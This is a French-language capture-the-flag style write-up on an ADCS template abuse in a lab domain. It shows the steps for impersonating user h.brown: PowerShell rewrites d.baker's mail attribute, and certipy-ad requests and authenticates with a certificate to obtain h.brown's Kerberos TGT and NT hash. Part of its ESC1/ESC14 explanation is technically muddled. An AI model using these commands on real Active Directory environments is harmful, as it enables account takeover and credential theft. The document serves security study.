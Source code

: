 # Email Spoofing

***

## <mark style="color:red;">🧾 Exploitation ADCS via Email Spoofing dans le Template</mark>&#x20;

***

### <mark style="color:blue;">📍</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Contexte de l’attaque**</mark>

On est dans un environnement Active Directory avec un serveur ADCS (Certificate Authority). Un utilisateur légitime (`d.baker`) peut demander des certificats via un **template de certificat** : `StaffAccessCertificate`.

Le but final est de **demander un certificat pour un autre utilisateur** (`h.brown`) tout en se faisant passer pour lui, et ainsi obtenir :

* son **TGT Kerberos**
* son **NTLM hash**
* et potentiellement accéder à des privilèges plus élevés.

***

### <mark style="color:blue;">📎 Étapes techniques utilisées</mark>

***

#### <mark style="color:green;">🧩 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Modification de l’attribut**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`mail`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**de d.baker**</mark>

```powershell
Set-ADUser d.baker -Replace @{mail='h.brown@scepter.htb'}
```

* Cette commande a été exécutée par un utilisateur ayant les droits `GenericAll` ou équivalent sur l’objet `d.baker`.
* Elle change l’adresse email (`proxyAddresses`, `mail`) de `d.baker` en **celle de `h.brown`**.

***

#### <mark style="color:green;">💣 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Pourquoi ça marche ? Le template ADCS est vulnérable (ESC1/ESC14)**</mark>

Le template `StaffAccessCertificate` est :

* **Enrollable** par tout utilisateur membre du groupe "Staff"
* Ne nécessite **aucune validation d’identité stricte**
* Permet à l’utilisateur de fournir lui-même son **Subject Alternative Name (SAN)** : `email`, `UPN`, `DNS`, etc.

<mark style="color:green;">⚠️</mark> <mark style="color:green;"></mark><mark style="color:green;">**Les templates vulnérables sont ceux configurés avec :**</mark>

```plaintext
Subject Name: Supplied in Request
Subject Alternative Name: Email, UPN
```

{% hint style="info" %}
"Subject Name: Supplied in Request" signifie que le nom du sujet (Subject Name) du certificat sera fourni dans la **Certificate Signing Request (CSR)**.

***

<mark style="color:green;">**Qu'est-ce qu'un CSR ?**</mark>

Un CSR est une demande de certificat générée par l'entité qui veut obtenir un certificat. Elle contient :

```
- Clé publique du demandeur
- Informations d'identification (Subject Name)
- Attributs supplémentaires
- Signature de la demande avec la clé privée du demandeur
```

<mark style="color:green;">**Structure du Subject Name**</mark>

Le Subject Name contient les informations d'identification sous forme de **Distinguished Name (DN)** :

```
CN (Common Name) = www.example.com
O (Organization) = Mon Entreprise
OU (Organizational Unit) = IT Department  
L (Locality) = Paris
ST (State) = Île-de-France
C (Country) = FR
```

***

<mark style="color:green;">**Processus technique**</mark>

**1. Génération du CSR**

```bash
# Exemple avec OpenSSL
openssl req -new -key private.key -out certificate.csr

# L'outil demande :
Country Name (2 letter code) []: FR
State or Province Name []: Île-de-France
Locality Name []: Paris
Organization Name []: Mon Entreprise
Organizational Unit Name []: IT Department
Common Name []: www.example.com
Email Address []: admin@example.com
```

**2. Contenu du CSR**

```
-----BEGIN CERTIFICATE REQUEST-----
[Données encodées en Base64 contenant :]
- Version du CSR
- Subject Name (DN complet)
- Clé publique du demandeur
- Attributs/Extensions demandés
- Signature du CSR
-----END CERTIFICATE REQUEST-----
```

**3. Traitement par la CA**

Quand la CA reçoit le CSR :

```
1. Vérifie la signature du CSR (authentifie le demandeur)
2. Valide les informations du Subject Name
3. Vérifie que le demandeur a le droit d'utiliser ce nom
4. Extrait la clé publique du CSR
5. Crée le certificat final avec :
   - Subject Name du CSR
   - Clé publique du CSR
   - Issuer Name (nom de la CA)
   - Signature de la CA
```

<mark style="color:green;">**Validation du Subject Name**</mark>

#### Pour les certificats SSL/TLS :

* **Domain Validation (DV)** : vérification que le demandeur contrôle le domaine
* **Organization Validation (OV)** : vérification de l'identité de l'organisation
* **Extended Validation (EV)** : vérification approfondie de l'identité légale

***

<mark style="color:green;">**Méthodes de validation :**</mark>

```
DNS : ajout d'un enregistrement TXT spécifique
HTTP : placement d'un fichier sur le serveur web
Email : envoi d'un code à admin@domaine.com
Documents : fourniture de documents légaux
```
{% endhint %}

***

#### <mark style="color:green;">🏹 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Demande de certificat avec le nouveau**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`mail`**</mark>

```bash
certipy-ad req \
  -username d.baker@scepter.htb \
  -hashes 18b5fb0d99e7a475316213c15b6f22ce \
  -target dc01.scepter.htb \
  -ca 'scepter-DC01-CA' \
  -template 'StaffAccessCertificate'
```

* Certipy utilise **l'attribut `mail` du compte `d.baker`** pour construire le certificat.
* Comme `mail = h.brown@scepter.htb`, le certificat est signé comme s’il appartenait à `h.brown`.
* Résultat : on a un certificat qui **représente `h.brown`**, mais qui a été demandé par `d.baker`.

***

#### <mark style="color:green;">🎟️ 4.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Utilisation du certificat pour obtenir un TGT de**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`h.brown`**</mark>

```bash
certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
```

* Même si c’est le `.pfx` de `d.baker`, son certificat **identifie `h.brown`** via `mail` → donc le DC le traite comme tel.
* ➜ Le contrôleur de domaine délivre un **TGT valide pour `h.brown`**.

***

#### <mark style="color:green;">🔐 5.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Extraction du hash NTLM de**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`h.brown`**</mark>

```bash
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b4...:4ecf52...
```

Maintenant, l'attaquant peut :

* Utiliser WinRM avec ce compte
* Pivoter vers des privilèges plus élevés

***

### <mark style="color:blue;">Exemple de template vulnérable (</mark><mark style="color:blue;">`certutil -v -template StaffAccessCertificate`</mark><mark style="color:blue;">)</mark>

```
Subject Name:        Supply in Request
SubjectAltName:      Email
Permissions:
  Enroll: Domain Users
  Read/Write Attributes: Not enforced
```

***
